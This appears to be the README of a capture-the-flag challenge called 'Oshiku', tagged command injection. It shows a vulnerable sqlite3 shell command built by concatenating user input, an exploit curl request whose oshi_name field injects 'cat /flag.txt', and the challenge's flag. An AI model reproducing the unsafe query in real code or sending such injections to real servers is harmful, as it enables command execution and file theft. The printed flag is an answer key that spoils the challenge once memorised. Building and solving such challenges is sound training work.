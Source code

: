 # Oshiku

Author: VascoZ

## Description

Oshiku Satu JKT48

## Requirements

None

## Sources

-

## Tags

- Command Injection

## Exploit

Command Injection (into a prepared sql statement) query = 'sqlite3 database.db "SELECT biography FROM oshi WHERE name=\'' + str(name) +'\'\"'

exploit : curl -X POST -d "oshi_name=freya\"%20;%20cat%20/flag.txt;echo%20\"" (url)



## Flag

```
WRECKIT50{oshikucumansatuk0k_satujkt}
```

## connection



## Severity
HARD

## Note
UI Akan diperbaiki

